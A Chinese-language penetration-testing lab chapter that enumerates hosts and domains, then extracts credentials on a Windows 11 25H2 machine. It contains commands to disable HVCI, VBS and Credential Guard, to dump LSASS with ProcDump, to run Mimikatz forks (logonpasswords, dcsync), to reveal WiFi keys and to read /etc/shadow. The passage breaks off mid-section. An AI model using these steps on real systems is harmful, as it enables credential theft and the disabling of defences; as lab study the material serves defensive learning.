## 实验环境

| 项目 | 值 |
| --- | --- |
| 测试主机 | Windows 11 专业版 25H2（x64，Build 26200） |
| 主机角色 | 独立工作站（WORKGROUP） |
| 登录账号 | 本地管理员账号 |
| 网络 | Wi-Fi，`192.168.12.58/24` |
| 其他网卡 | VMware VMnet1/3/8、Hyper-V 虚拟网卡 |
| 终端防护 | VBS 运行中，HVCI/Credential Guard 未启用，RunAsPPL=0 |

本章的域信息收集部分只能演示命令和预期输出；可以参考 [域环境相关概念及实操](./域环境相关概念及实操.md)。

## 3.1 收集主机信息

### 3.1.1 基于 Linux 的主机信息收集


| 命令 | 说明 |
| --- | --- |
| `whoami` | 当前登录用户 |
| `id` | 当前用户的 UID、GID 和所属组 |
| `uname -a` | 内核版本与系统架构 |
| `cat /etc/os-release` | 发行版名称和版本 |
| `hostname -I` | 本机所有 IPv4 地址 |
| `ip a` | 网卡、IP、MAC 和状态 |
| `ip route` | 路由表与默认网关 |
| `ss -tunlp` | 监听端口及对应进程 |
| `ps aux` | 全部进程与启动命令 |
| `systemctl list-units --type=service --state=running` | 正在运行的服务 |
| `cat /etc/passwd` | 系统用户列表 |
| `cat /etc/shadow` | 密码 Hash（需要 root） |
| `sudo -l` | 当前用户可执行的 sudo 命令 |
| `find / -perm -u=s -type f 2>/dev/null` | 查找 SUID 文件 |
| `crontab -l` | 当前用户的计划任务 |
| `ls -la /etc/cron.*` | 系统级计划任务目录 |
| `cat /etc/rc.local` | 开机自启脚本 |

### 3.1.2 基于 Windows 的主机信息收集

#### 身份与系统信息

| 命令 | 说明 |
| --- | --- |
| `hostname` | 计算机名 |
| `whoami` | 当前用户和所属域/工作组 |
| `whoami /groups` | 当前令牌中的用户组和完整性级别 |
| `systeminfo` | 系统版本、补丁、域、网卡等综合信息 |
| `Get-HotFix` | 已安装补丁列表（PowerShell） |
| `wmic qfe get HotFixID,InstalledOn` | 补丁列表（旧命令，部分系统已弃用） |
| `Get-CimInstance Win32_OperatingSystem` | 系统版本和启动时间 |

```cmd
hostname
whoami
systeminfo
```



`systeminfo` 一次性给出了主机名、系统版本、补丁列表、域信息等关键信息。这里的重点是：

- `Domain: WORKGROUP` 说明当前是工作组环境；
- `Hotfix(s)` 可以判断系统补丁新旧，缺失的关键补丁往往是提权入口；
- `System Manufacturer/Model` 能辅助判断是物理机还是虚拟机。

#### 用户与管理员组

| 命令 | 说明 |
| --- | --- |
| `net user` | 列出本地用户 |
| `net user 用户名` | 查看指定用户的详细信息 |
| `net localgroup administrators` | 列出本地管理员组成员 |
| `net localgroup administrators 用户名 /add` | 把用户加入管理员组（需管理员） |
| `query user` | 查看当前登录会话 |
| `quser` | 与 `query user` 类似 |

```cmd
net user
net localgroup administrators
```



这一步主要看三件事：

- 有没有陌生的账号，尤其是名称像 `admin$`、`support` 的后门账号；
- 管理员组里有没有普通业务账号，是否存在权限滥用；
- 是否存在长期未使用的账号，后续可以尝试口令猜测。

#### 共享目录

| 命令 | 说明 |
| --- | --- |
| `Get-SmbShare` | 查看 SMB 共享及路径（PowerShell） |
| `net share` | 查看共享目录（输出可能为本地语言） |
| `net use` | 查看本机发起或建立的 IPC/SMB 连接 |
| `net session` | 查看其他主机到本机的会话 |

```powershell
Get-SmbShare | Format-Table Name, Path
```



`C$`、`D$`、`ADMIN$`、`IPC$` 是系统默认共享。默认共享本身不代表漏洞，但如果管理员额外开放了业务共享，里面可能有配置文件、备份包甚至数据库凭据。

#### 当前登录会话

```cmd
query user
```



`query user` 可以看到当前有哪些用户在线。域环境中如果看到域管理员正在登录，可以结合后续的凭据抓取做进一步利用。

#### 进程、服务与凭据痕迹

| 命令 | 说明 |
| --- | --- |
| `tasklist` | 进程列表 |
| `tasklist /FI "PID eq 1540"` | 按 PID 反查进程 |
| `tasklist /M /FI "IMAGENAME eq lsass.exe"` | 查看指定进程加载的模块 |
| `sc query state= all` | 查看所有服务状态 |
| `schtasks /query /fo LIST` | 查看计划任务 |
| `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run` | 查看开机启动项 |
| `cmdkey /list` | 查看当前用户保存的凭据 |
| `netsh wlan show profiles` | 查看连接过的 WiFi |
| `netsh wlan show profile name="名称" key=clear` | 查看指定 WiFi 的明文密码 |
| `Get-Process` | PowerShell 进程列表 |
| `Get-Service` | PowerShell 服务列表 |

这些命令和前面几条配合，基本能把一台 Windows 主机"画像"出来。

## 3.2 收集网络信息

### 3.2.1 工作组信息收集

| 命令 | 说明 |
| --- | --- |
| `ipconfig /all` | 本机全部网卡、IP、网关、DNS、MAC |
| `arp -a` | ARP 缓存，发现同网段通信过的主机 |
| `route print -4` | IPv4 路由表，判断多网卡出口 |
| `netstat -ano` | 连接、监听端口及 PID |
| `net view` | 尝试列出工作组内的计算机 |
| `net view /domain` | 列出指定域/工作组中的主机 |
| `nbtstat -n` | 查看本机 NetBIOS 名称 |
| `net use` | 查看已有 IPC/SMB 连接 |
| `net session` | 查看入站会话 |

#### 网络配置

```cmd
ipconfig /all
```



重点关注 IP 段、网关、DNS 和多网卡。本机除了 Wi-Fi 之外，还有多块 VMware 虚拟网卡，说明这台机器上还跑着虚拟机实验环境。

#### ARP 缓存与路由表

```cmd
arp -a
route print -4
```



ARP 表能看到最近通信过的主机，路由表能看出本机连接了哪些网段。多网卡机器尤其要看清默认路由走哪块网卡，避免后续代理或隧道配错出口。

#### 端口与连接

```cmd
netstat -ano
```



先看 `LISTENING`，再看 `ESTABLISHED`，最后用 PID 反查进程：

```cmd
tasklist /FI "PID eq 1540"
```

如果发现陌生的监听端口或外联地址，就要进一步确认进程签名和启动路径。

#### 工作组主机发现

```cmd
net view
```



本机执行 `net view` 返回了 6118 错误。这是工作组环境下的常见现象：Computer Browser 服务默认关闭，或者网络发现没有开启，并不代表网络有问题。

可以改用以下命令补充：

```cmd
net view /domain
net use
net session
```

在真实内网中，也可以使用 `nbtscan`、`netdiscover` 或 Nmap 做主机发现，具体用法见 [内网信息收集实战笔记](./内网信息收集实战笔记.md)。

### 3.2.2 Windows 域信息收集

```cmd
net config workstation
```



本机输出 `Workstation domain: WORKGROUP`，说明没有加入域。因此继续执行域查询命令会失败：

```cmd
nltest /dsgetdc:WORKGROUP
net group /domain
net group "domain computers" /domain
```

返回 `ERROR_NO_SUCH_DOMAIN` 和 `System error 1355` 是预期结果。

| 命令 | 说明 |
| --- | --- |
| `net config workstation` | 判断当前登录域/工作组 |
| `nltest /dsgetdc:域名` | 定位域控制器 |
| `net group /domain` | 列出域内所有组 |
| `net group "domain computers" /domain` | 列出加入域的计算机 |
| `net group "domain admins" /domain` | 列出域管理员 |
| `net group "domain controllers" /domain` | 列出域控制器 |
| `net user /domain` | 列出域用户 |
| `dsquery user` | 查询活动目录用户 |
| `dsquery server` | 查询活动目录中的域控 |
| `net time /domain` | 通过时间判断主域控 |
| `gpresult /r` | 查看应用的组策略 |

如果目标是 Exchange 或域控，还可以进一步收集 SPN、委派和 ACL 信息

## 3.3 结果分析

把上面的结果串起来，可以得到一份本机画像：

- 独立工作站，未加入域，域渗透路径不适用于本机；
- 本地存在管理员账号，当前会话即为管理员权限；
- 开放 135、445 等常见端口，系统默认共享开启；
- 多块 VMware 虚拟网卡，说明本机可作为虚拟实验环境的宿主机；
- VBS 处于运行状态，但 HVCI 和 Credential Guard 未启用，`RunAsPPL=0`，LSASS 未受 PPL 保护；
- 实时防护未开启，不能代表真实对抗环境；
- 在本机成功用 ProcDump 转储 LSASS，说明 `RunAsPPL=0` 时转储门槛很低。

这也是信息收集的意义：先确认环境类型，再决定走工作组还是域的攻击路径，避免拿着域命令在非域环境里反复试错。

## 3.4 凭据提取与终端防护对抗

### 3.4.1 基础概念

| 概念 | 说明 |
| --- | --- |
| LSASS | `lsass.exe` 负责本地登录和凭据管理，内存中缓存 NTLM Hash、Kerberos 票据，部分配置下还有 WDigest 明文 |
| PPL | Protected Process Light，受保护进程；LSASS 以 PPL 运行时，普通管理员无法直接读取其内存 |
| RunAsPPL | 控制 LSASS 是否以 PPL 启动的注册表项：`0` 关闭，`1` 开启（UEFI 锁定），`2` 开启（无 UEFI 锁定） |
| VBS | 基于虚拟化的安全，用 Hyper-V 隔离安全服务；`VirtualizationBasedSecurityStatus`：0 关闭、1 已配置、2 运行中 |
| HVCI | Hypervisor-Enforced Code Integrity，即"内存完整性"，阻止未签名或存在漏洞的驱动加载；`SecurityServicesRunning` 中的 `2` |
| Credential Guard | 把 LSA 秘密放进隔离进程 `LSAIso`，即使拿到 LSASS 内存也读不到；`SecurityServicesRunning` 中的 `1` |
| Minidump | 进程内存快照，文件头为 `MDMP`；可离线用 Mimikatz/Pypykatz 等解析 |

24H2/25H2 上常见的失败链条是：

1. `RunAsPPL=1/2`：Mimikatz 打不开 LSASS，报 `ERROR kuhl_m_sekurlsa_acquireLSA`；
2. HVCI 开启：想用 BYOVD（自带易受攻击驱动）绕过 PPL 时，驱动加载失败；
3. Credential Guard 开启：即使读到 LSASS，也拿不到域凭据；
4. 原版 Mimikatz 的偏移量不匹配新版本 `lsass.exe`，出现崩溃或解析为空。

### 3.4.2 本机防护状态检查

先确认当前处于哪一层防护，再决定用哪种方式。以下 PowerShell 只读，不修改系统：

```powershell
$dg = Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

[pscustomobject]@{
    # 0=关闭 1=已配置未运行 2=运行中
    VBSStatus       = $dg.VirtualizationBasedSecurityStatus
    # 1=Credential Guard 2=HVCI 3=Secure Launch 4=SMM
    ServicesRunning = ($dg.SecurityServicesRunning -join ',')
    RunAsPPL        = (Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa' `
                        -Name RunAsPPL -ErrorAction SilentlyContinue).RunAsPPL
    VBSEnabled      = (Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard' `
                        -Name EnableVirtualizationBasedSecurity -ErrorAction SilentlyContinue).EnableVirtualizationBasedSecurity
    HVCIEnabled     = (Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity' `
                        -Name Enabled -ErrorAction SilentlyContinue).Enabled
} | Format-List
```



本机结果：

- `VirtualizationBasedSecurityStatus = 2`：VBS 正在运行；
- `SecurityServicesRunning = {0}`：Credential Guard 和 HVCI 都没有运行；
- `RunAsPPL = 0`：LSASS 没有 PPL 保护；
- `EnableVirtualizationBasedSecurity = 1`、HVCI `Enabled = 0`：VBS 已配置，但内存完整性关闭。

也就是说，本机虽然系统版本是 25H2，但防护配置并不完整。真实对抗环境通常会把这三项都打开，下面的工具链要按对应层级选择。

> 也可以在 `msinfo32` 的"系统摘要"里查看"基于虚拟化的安全性"和"内核 DMA 保护"等状态，图形界面更直观。

### 3.4.3 关闭 HVCI/VBS 的 PowerShell 方案

HVCI 依赖 VBS，想加载 BYOVD 驱动时，通常要先关闭内存完整性。**以下脚本只在隔离虚拟机中执行，执行前先打快照。**

```powershell
# 必须以管理员身份运行
$dg   = 'HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard'
$hvci = "$dg\Scenarios\HypervisorEnforcedCodeIntegrity"

# 1. 关闭 HVCI（内存完整性）
Set-ItemProperty -Path $hvci -Name Enabled -Type DWord -Value 0

# 2. 关闭 VBS
Set-ItemProperty -Path $dg -Name EnableVirtualizationBasedSecurity -Type DWord -Value 0

# 3. 如启用了 Credential Guard，一并关闭
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa' `
    -Name LsaCfgFlags -Type DWord -Value 0 -ErrorAction SilentlyContinue

# 4. 重启生效
Restart-Computer
```

重启后再次执行 3.4.2 的检查脚本，确认 `HVCIEnabled=0`、`ServicesRunning` 中不再包含 `2`。

恢复脚本：

```powershell
$dg   = 'HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard'
$hvci = "$dg\Scenarios\HypervisorEnforcedCodeIntegrity"

Set-ItemProperty -Path $hvci -Name Enabled -Type DWord -Value 1
Set-ItemProperty -Path $dg -Name EnableVirtualizationBasedSecurity -Type DWord -Value 1
Restart-Computer
```

注意事项：

- 关闭 HVCI 会降低内核完整性保护，某些游戏反作弊、企业合规策略可能要求开启；
- 组策略或 Intune 下发的策略优先级更高，注册表改了也可能被刷回去；
- 如果只是做凭据提取实验，优先在虚拟机快照里关闭，不要动物理机；
- 不要在关闭防护后忘记恢复。

### 3.4.4 Mimikatz 与 24H2/25H2 Fork

原版 Mimikatz 的 `sekurlsa` 模块依赖 `lsass.exe` 内部结构偏移。Windows 11 24H2/25H2 更新后，旧偏移失效，常见表现是 `sekurlsa::logonpasswords` 报错或输出为空。

社区有两个常见的适配方向：

```text
https://github.com/tanrikuluatahan/mimikatz
https://github.com/old-creator/new-mimikatz
```

前者是针对 24H2/25H2 修复 `sekurlsa::logonpasswords` 偏移的分支，技术细节见：

```text
https://medium.com/@tanrikuluatahan/fixing-mimikatz-sekurlsa-logonpasswords-on-windows-11-24h2-25h2-253e82866197
```

后者是 `NewMimi.exe`（New-Mimikatz），README 中声明用于解决 Windows 11 上 `sekurlsa` 模块报 `Logon list` 的问题。

常用命令：

| 命令 | 说明 |
| --- | --- |
| `privilege::debug` | 获取 SeDebugPrivilege，成功返回 `OK` |
| `token::elevate` | 提升到 SYSTEM 令牌 |
| `sekurlsa::logonpasswords` | 读取登录凭据（明文/Hash/票据） |
| `sekurlsa::ekeys` | 读取 Kerberos 加密密钥 |
| `sekurlsa::tickets /export` | 导出 Kerberos 票据 |
| `lsadump::sam` | 读取本地 SAM 中的 NTLM Hash |
| `lsadump::dcsync /user:域\用户` | DCSync 拉取域内凭据（需域控权限） |


典型流程：

```text
mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::logonpasswords
```

即使换成分支版本，如果 `RunAsPPL=1/2` 或 Credential Guard 开启，仍然拿不到数据，需要结合下面的 dump 方案或驱动级绕过。

**本机实测（Build 26200，`RunAsPPL=0`）**

| 工具 | 命令 | 结果 |
| --- | --- | --- |
| mimikatz 2.2.0（官方 x64） | `sekurlsa::logonpasswords` | `Privilege '20' OK`，随后 `ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list` |
| New-Mimikatz（`NewMimi.exe`） | `sekurlsa::logonpasswords` | 同样返回 `ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list` |

两个版本都分别用**实时 LSASS**和**minidump**两种方式测试，报错一致。



结论：

- `privilege::debug` 能成功，说明权限没问题，卡在读取 LogonSessionList 的偏移；
- New-Mimikatz 在 24H2（Build 26100）上有效，但本机是 25H2（Build 26200），结构又变了；
- 25H2 上更实际的做法是转储后用 KvcForensic 解析（3.4.7），或者使用已经适配 26200 的新分支。

### 3.4.5 ProcDump 转储 LSASS

ProcDump 是 Sysinternals 的进程转储工具，命令简单，适合 `RunAsPPL=0` 且没有强对抗的环境。完整参数、排错和检测思路见 [ProcDump 转储 LSASS 实战](../后渗透与权限维持/ProcDump转储LSASS实战.md)。

| 命令 | 说明 |
| --- | --- |
| `procdump64.exe -accepteula -ma lsass.exe lsass.dmp` | 生成完整内存转储 |
| `procdump64.exe -accepteula -ma -r lsass.exe lsass.dmp` | 使用克隆方式（部分版本支持） |
| `tasklist /fi "imagename eq lsass.exe"` | 先确认 LSASS PID |

```cmd
procdump64.exe -accepteula -ma lsass.exe C:\temp\lsass.dmp
```



本机实测：ProcDump v12.02，约 0.3 秒完成 80 MB 转储。命令必须在管理员权限的终端中执行；普通权限会返回 `Error opening lsass.exe (1224): Access is denied (0x00000005)`。

常见问题：

- 返回 `Access is denied`：LSASS 受 PPL 保护，或者杀软拦截；
- 转储文件很大（几十到上百 MB），注意磁盘空间；
- 文件包含真实凭据，实验结束立即删除，不要上传。

如果 PPL 开启，ProcDump 通常无法直接读取，需要改用 WSASS、KvcForensic 或驱动级方案。

### 3.4.6 Pypykatz 离线解析

Pypykatz 是纯 Python 的 Mimikatz 解析实现，可以跨平台离线解析 minidump，不需要在目标机上运行 Mimikatz。安装、JSON 输出和常见报错见 [Pypykatz 离线解析 LSASS](../后渗透与权限维持/Pypykatz离线解析LSASS实战.md)。

安装与常用命令：

| 命令 | 说明 |
| --- | --- |
| `python -m pip install pypykatz` | 安装 |
| `python -m pypykatz version` | 查看版本 |
| `python -m pypykatz lsa minidump lsass.dmp` | 解析 minidump |
| `python -m pypykatz lsa minidump lsass.dmp --json -o result.json` | 输出 JSON |
| `python -m pypykatz lsa minidump -p msv,wdigest,kerberos lsass.dmp` | 只解析指定模块 |
| `python -m pypykatz lsa minidump -g lsass.dmp` | 输出便于 grep 的格式 |



本机已安装 `pypykatz 0.6.13`，可以直接解析 dump 文件。注意不同版本的 pypykatz 对新系统结构支持程度不同，遇到解析失败先升级版本。

解析实际生成的 dump：

```powershell
python -m pypykatz lsa minidump C:\Users\user\AppData\Local\Temp\lsass.dmp
```



实测结果：

- 能解析出 WDigest 和 Kerberos 条目，但 `password` 均为 `None`，没有明文；
- MSV 模块在 25H2 的 dump 上抛出 `msv_exception_please_report`，没有拿到 NTLM Hash；
- 说明 pypykatz 0.6.13 对 25H2 的结构适配还不完整；同一份 dump 改用 KvcForensic 可以正常解析，见 3.4.7。

### 3.4.7 KvcForensic

KvcForensic 是 KVC Framework 中的 LSASS minidump 凭据提取组件，内置 `KvcForensic.json` 保存不同 Windows 版本的 LSA 结构偏移，适合解析新版本系统的 dump。命令行参数、模板匹配和 GUI 用法见 [KvcForensic 解析 LSASS](../后渗透与权限维持/KvcForensic解析LSASS实战.md)。

项目地址：

```text
https://kvc.pl/project-kvc
https://github.com/wesmar/kvc
```

工作原理：

